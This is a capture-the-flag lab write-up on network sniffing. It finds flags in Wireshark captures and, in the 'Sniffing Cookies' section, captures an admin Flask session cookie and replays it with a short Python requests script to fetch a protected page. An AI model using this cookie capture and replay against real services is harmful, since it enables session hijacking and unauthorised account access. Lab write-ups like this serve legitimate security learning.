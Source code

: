 It seems I can't open wireshark at workspace. So I use Desktop.
After run `/challenge/run`, input `wireshark` to open GUI.
Choose eth0 to capture. Flag is at the reply packet of `10.0.0.1` with sign of `PSH, ACK`.
See the detial of the packet to find it.

# Monitor 2

The flag is split to multiple packages, and each package only has one letter.

Find a `FIN` signal to get the first letter of the flag.

# Sniffing Cookies

Read the code of `/challenge/run`.

The code `app.secret_key = os.urandom(8)` will let the session saving info in secret code in Cookie.

But the below code in `/challenge/run` exposed the cookie:

```py
assert s.post("http://10.0.0.2/login", data={"username":"admin", "password":admin_pw}).status_code == 200
    while True:
        try:
            s.get("http://10.0.0.2/ping")
```

The `assert` statement will keep the cookie in session so we can use wireshark to get the cookie in the `GET` method.

Use the cookie to get the flag.

```py
'''
GET /ping HTTP/1.1
Host: 10.0.0.2
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, zstd
Accept: */*
Connection: keep-alive
Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.Z8fxdg.SqnIG1SqCcck6rid4_i9Fk75JTw
'''

import requests as req

url='http://10.0.0.2/flag'
head = dict(
    Cookie='session=eyJ1c2VyIjoiYWRtaW4ifQ.Z8fxdg.SqnIG1SqCcck6rid4_i9Fk75JTw',
)

sess = req.Session()
res = sess.get(url, headers=head)
print(res.text)
```
